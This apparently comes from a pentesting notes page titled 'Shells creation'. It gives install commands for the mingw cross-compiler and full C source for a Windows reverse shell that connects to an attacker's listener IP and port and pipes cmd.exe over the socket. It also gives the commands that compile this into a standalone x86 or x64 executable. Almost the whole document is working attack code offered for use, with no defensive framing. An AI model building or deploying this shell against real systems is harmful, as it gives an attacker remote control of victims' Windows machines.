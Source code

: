 # Shells creation

Install mingw on linux
```sudo apt install mingw-w64```
```sudo apt install gcc-mingw-w64```

Download the Cwindows(not c shell code) shell code filetype: **(CWindows)** from [revsehlls.com](https://www.revshells.com/) and save it to a file windows.c than run below command it will generate a reverse shell
#### C reverse shell code(Just replace IP & Port(Its a char data type so dont remove "" for IP & port))

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32")

WSADATA wsaData;
SOCKET Winsock;
struct sockaddr_in hax; 
char ip_addr[16] = "listenerip"; 
char port[6] = "listnerport";            

STARTUPINFO ini_processo;

PROCESS_INFORMATION processo_info;

int main()
{
    WSAStartup(MAKEWORD(2, 2), &wsaData);
    Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);


    struct hostent *host; 
    host = gethostbyname(ip_addr);
    strcpy_s(ip_addr, 16, inet_ntoa(*((struct in_addr *)host->h_addr)));

    hax.sin_family = AF_INET;
    hax.sin_port = htons(atoi(port));
    hax.sin_addr.s_addr = inet_addr(ip_addr);

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    return 0;
}
```

### X86 compilation
```i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o rsh.exe -lws2_32```
### X64 compilation(it might show warning but its exe file works)
```x86_64-w64-mingw32-gcc -std=c99 windows.c -o rsh.exe -lws2_32```

#### -l this option is used to statically link binaries or else its going to produce an error here we are statically linking lws2_32 dll file
